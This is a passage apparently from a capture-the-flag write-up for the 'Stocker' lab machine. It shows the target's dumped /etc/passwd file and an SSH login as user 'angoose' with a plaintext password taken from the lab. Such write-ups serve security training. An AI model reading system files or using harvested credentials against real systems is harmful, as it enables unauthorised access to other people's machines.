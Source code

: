 ```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:113::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:114::/nonexistent:/usr/sbin/nologin`
landscape:x:109:116::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
fwupd-refresh:x:112:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mongodb:x:113:65534::/home/mongodb:/usr/sbin/nologin
angoose:x:1001:1001:,,,:/home/angoose:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```

## SSH Shell (Step 1).

Call a ssh command with `angoose` as username and `IHeardPassphrasesArePrettySecure` as password and then…

```bash
┌──(kali㉿kali)-[~]
└─$ ssh angoose@dev.stocker.htb
angoose@dev.stocker.htb's password: 
Last login: Sat Jan 28 16:26:11 2023 from 10.10.16.6
angoose@stocker:~$
```

You’re logged in.

